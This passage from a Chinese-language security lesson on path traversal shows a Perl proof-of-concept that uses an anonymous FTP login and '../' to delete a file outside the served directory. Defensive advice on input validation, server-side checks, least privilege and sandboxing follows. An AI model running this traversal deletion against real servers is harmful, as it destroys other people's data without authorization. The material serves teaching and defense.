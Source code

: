 ```perl
use strict;
use Net::FTP

print "1";
my $ftp = Net::FTP->new("52.81.192.166", Debug => 1) || die $@;

$ftp->login("anonymous", "") || die $ftp->message;

$ftp->cwd("/Desktop/") || die $ftp->message;

# This deletes the file C:\Users\sty\test.txt
$ftp->delete("../test.txt");

$ftp->quit;

$ftp = undef;
```

通过上述的代码，我们可以看到`C:\Users\sty\test.txt`文件已经被删除了，我们成功穿越了FTP Server的限制，实现了了任意文件的删除！又一个神奇的漏洞被我们成功利用了，身为勇士的你成功地获取了城堡内宝藏的控制权。

## 防御方案

既然我们已经了解了漏洞的原理、发生的场景以及利用方式，那么我们要如何防御这种类型的攻击，并且预防潜在的漏洞出现呢？我们可以从不同的阶段出发，进行多维度安全建设，从而最大化地降低这类风险出现的概率。

**在编码实现阶段：**  
1\. 假设所有的输入都是恶意的，使用“只接受已知的善意的”输入检查策略，也就是使用一些定义清晰且严格的参数格式；  
2\. 输入都应该被解码为程序内部的处理格式，并且确保在应用系统没有被二次解码，防止攻击者通过编码或者二次编码进行绕过；  
3\. 如果可能，为用户提供选项或者通过应用系统内部ID映射的方式进行对象访问，例如ID 1对应“info.txt”；  
4\. 确保Error Message只包含最小必要信息，避免过于详细的信息展示，防止攻击者因此获取系统相关信息。

**在架构设计阶段：**  
1\. 确保所有客户端发生的安全检查，都在服务端完成第二次检查，这样做的目的是防止攻击者在客户端进行安全检查绕过；  
2\. 使用成熟的库或者框架来使开发者更容易规避这种特定类型的风险。

**在防御建设阶段：**  
1\. 使用可以防御这种类型攻击的应用层防火墙，在某些特定情况下（比如应用系统漏洞无法修复）非常有效；  
2\. 使用最小权限运行开发完毕的应用系统，如果可能，创建独立的受限账户用于应用系统运行；  
3\. 使用沙箱环境运行开发完毕的应用系统，做好进程和系统之间的边界隔离。

回到我们最初的场景，此时你不再是想要潜入城堡的勇士，而是昔日负责城堡建设的规划师。那么编码实现阶段的输入过滤就像一道道门禁关卡，只有真正城堡内部的人才能进入；架构设计阶段则让你从内到外地落地安全检查，当然你也可以借鉴成熟的城堡设计方案；最后在防御建设阶段，做好每个通道的隔离，确保不会有任何一条通道可以直接进入城堡核心区域。

## 总结

构建一个安全优雅的系统，**保持神秘性是一个至关重要的因素**，让用户只看到他应该看到的东西，是这一切的前提。

不怀好意的攻击者往往非常聪明，你让他看见一滴水，他就能想到路的尽头是一片海洋，最有趣的事情在于你所建设的系统尽头恰好有一片海洋，而且海里还有攻击者垂涎的海鲜。

这节课我们分析了**常见的路径穿越场景**和这些场景下的**典型漏洞利用代码**：

1. 未对用户输入做验证；
2. 黑名单检测绕过；
3. 白名单检测绕过；
4. 前端检测绕过。

